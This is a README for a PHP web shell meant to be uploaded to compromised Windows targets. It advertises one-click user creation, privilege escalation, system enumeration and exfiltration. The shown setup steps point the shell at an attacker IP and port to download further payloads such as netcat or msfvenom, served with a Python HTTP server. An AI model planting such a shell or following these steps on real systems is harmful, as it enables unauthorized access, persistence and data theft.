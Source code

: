 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. Note that the tools in my quick upload function are not included in this repo as they are the work of other parties. </p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Specifically:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>One click preset user creation (on compatible targets)</li>
<li>One click Priv Esc for preset user (on compatible targets)</li>
<li>One click user info/ user perm info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload tools such as netcat or msvenom payload for further access to the target.  Once you've gained sufficient access to a target to upload the nsscmdshell, no further instruction on using this tool should be needed.  Do not open issues because you don't know how to use this tool.  It works.  Got "Warning: file_get_contents(http://XX.XX.XX.XX:xxxx/filename.ext):failed to open stream: No connetion could be made...." error?  Two possible causes: 1).You didn't set the variables, "$attackip" and "$attackport" to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11. 2). The files are not available on the defined server or port, or there is no server running on the defined port. Fix: python3 -m http.server 8000 in a directory containing the files you're attempting to upload.</p>

